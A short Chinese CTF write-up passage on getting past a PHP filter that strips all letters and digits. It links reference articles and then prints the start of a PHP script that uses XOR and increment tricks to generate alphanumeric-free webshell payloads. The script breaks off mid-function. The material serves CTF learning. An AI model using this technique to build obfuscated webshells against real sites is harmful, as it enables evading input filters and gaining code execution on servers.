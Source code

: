 顾名思义就是把字母数字都给过滤掉了

可以利用像异或、自增、取反：`$、+、-、^、~、|`来构造payload

1. [一些不包含数字和字母的webshell | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
2. [无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
3. [无字母数字绕过正则总结（含上传临时文件、异或、或、取反、自增脚本-羽](https://blog.csdn.net/miuzzx/article/details/109143413)
4. [ctfshow web入门 web41_羽的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/108569080)

具体原理不赘述了==，给上群主师傅的脚本吧

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 14:35:44
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 16:41:46
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


$precode=<<<code
\$_=('@'^'!');
\$__=\$_++;
\$___=++\$__;
\$____=++\$___;
\$_____=++\$____;
\$______=++\$_____;
\$_______=++\$______;
\$________=++\$_______;
\$_________=++\$________;
\$__________=++\$_________;
\$___________=++\$__________;
\$____________=++\$___________;
\$_____________=++\$____________;
\$______________=++\$_____________;
\$_______________=++\$______________;
\$________________=++\$_______________;
\$_________________=++\$________________;
\$__________________=++\$_________________;
\$___________________=++\$__________________;
\$____________________=++\$___________________;
\$_____________________=++\$____________________;
\$______________________=++\$_____________________;
\$_______________________=++\$______________________;
\$________________________=++\$_______________________;
\$_________________________=++\$________________________;
\$__________________________=++\$_________________________;
\$_=('@'^'!');
code;

eval($precode);


#使用异或生成任意无字母数字代码
function createCode($code){
	global $precode;
	$ret = "";
	for ($i=0; $i < strlen($code); $i++) { 
```